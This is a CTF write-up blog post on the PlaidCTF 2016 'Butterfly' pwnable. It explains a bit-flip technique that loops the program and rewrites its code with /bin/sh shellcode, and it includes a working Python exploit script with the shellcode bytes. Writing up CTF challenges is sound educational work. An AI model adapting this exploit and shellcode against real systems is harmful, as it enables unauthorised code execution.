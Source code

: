 ```yaml
---
layout: post
title: "PlaidCTF 2016: Butterfly"
category: Security
date: 2016-04-17
tags:
  - PlaidCTF
  - CTF
  - Shadow Cats
---
```


Butterfly was a 150 point pwnable in the 2016 PlaidCTF.  Basic properties:

* x86_64
* Not PIE
* Assume ASLR, NX

It turns out to be a very simple binary, all the relevant code in one function
(`main`), and using only a handful of libc functions.  The first thing that
jumped out to me was two calls to `mprotect`, at the same address.  I spent some
time looking at the disassembly and figuring out what was going on.  The
relevant portions can be seen here:

![First mprotect call][1]
![Second mprotect call][2]

I determined that the binary performed the following:

1. Print a message.
2. Read a line of user input and convert it to a long with `strtol`.
2. Take the read value and right shift by 3 bits.  Let's call this `addr`.
3. Find the (4096-bit) page containing `addr` and call `mprotect` with
   `PROT_READ|PROT_WRITE|PROT_EXEC`.
4. xor the byte at `addr` with `1 << (input & 7)`.  In other words, the lowest 3
   bits of the user-provided long are used to index the bit within the byte to
   flip.
5. Reprotect the page containing `addr` as `PROT_READ|PROT_EXEC`.
6. Print a final message.

The TL;DR is that we're able to flip any bit in any mapped address space of the
process.  Due to ASLR, I decided to focus on the .text section of the binary as
my first goal.  Specifically, I began looking at the GOT and all of the
executable code after the bit being flipped.  I couldn't immediately happen on
anything obvious (there's not some branch to flip to `system("/bin/sh")` after
all).

I had an idea that redirecting control flow with one of the function calls
(either `mprotect` or `puts`) seemed like a logical place to flip bits.  I
didn't see an immediately obvious choice, so I wrote a script to brute force
addresses within the two calls, flipping one bit at a time.  I happened upon a
bit flip in the call to `mprotect` that resulted in jumping back to `_start+16`,
which effectively restarted the program.  This meant I could continue to flip
bits, as the one call had been replaced already.

Along with one of my team mates, we hit upon the idea of replacing the code at
the end of the program with our shellcode by flipping the necessary bits.  We
chose code beginning at `0x40084d` because it meant we could flip one bit in a
`je` at the top to get to this code when we were ready to execute our shellcode.

We extracted the bytes originally at that address, xor'd with our shellcode (a
simple 25-byte /bin/sh shellcode that [I've previously
featured](/2014/06/05/minimal-x86-64-shellcode-for-binsh/)), and determined
which bits needed to be flipped.  We then calculated the bit flips and wrote a
list of numbers to perform them.

In short, we needed to:

1. Flip a bit in `call mprotect` to give us a never-ending loop.
2. Flip about 100 bits to deploy our shellcode.
3. Flip one final bit to change the `je` to `jne` after the call to `fgets`.
4. Provide garbage input for the final call to `gets`.

My team mate and I both wrote scripts to do this because we were playing with
different techniques in python.  Here's mine:

~~~
base = 0x40084d
sc = '\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x31\xc0\x99\x31\xf6\x54\x5f\xb0\x3b\x0f\x05'
current = 'dH\x8b\x04%(\x00\x00\x00H;D$@u&D\x89\xf0H\x83\xc4H[A'
flips = ''.join(chr(ord(a) ^ ord(b)) for a,b in zip(sc, current))

start_loop = 0x20041c6
end_loop = 0x2003eb0

print hex(start_loop)

for i, pos in enumerate(flips):
    pos = ord(pos)
    for bit in xrange(8):
        if pos & (1<<bit):
            print hex(((base + i) << 3) | bit)

print hex(end_loop)
print 'whoami'
~~~

Redirecting to netcat allowed us to obtain a shell, and the flag.  Great challenge
and amazing to see how one bit flip can do so much!


  [1]: /img/blog/butterfly/butterfly_1.png
  [2]: /img/blog/butterfly/butterfly_2.png
